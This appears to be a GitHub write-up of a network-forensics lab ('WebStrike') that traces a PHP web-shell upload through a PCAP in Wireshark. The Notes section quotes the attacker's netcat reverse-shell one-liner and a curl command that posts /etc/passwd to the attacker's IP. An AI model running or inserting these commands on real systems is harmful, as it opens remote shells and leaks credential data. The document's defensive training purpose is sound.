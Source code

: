 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

1. Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

### Ref 1: WebStrike.PCAP file
1. Navigate to the WebStrike.PCAP file that was captured ---| *Ref 1: WebStrike.PCAP file |.
2. Perform an IPv4 Address Lookup of ---| 117.11.88.124 |. 
3. Identify the User-Agent ---| Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |.
4. Create a filter for Wireshark ---| (ip.src == 117.11.88.124 and http.request.method=="POST") |.
5. Identify any successful uploads ---| "image.jpg.php" uploaded successfully |.
6. Locate the file location of the uploaded file ---| /reviews/uploads/ |.
7. Identify the targeted Port used for infiltration ---| Port 8080 |.
8. Create a filter for Wireshark ---| (tcp.port==8080) && (ip.src==24.49.63.79) |.
9. Identify the commands used for exfiltration ---| "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443" |.
10. Identified the critical information containing sensitive user configuration data.

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: WebStrike.PCAP file

## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
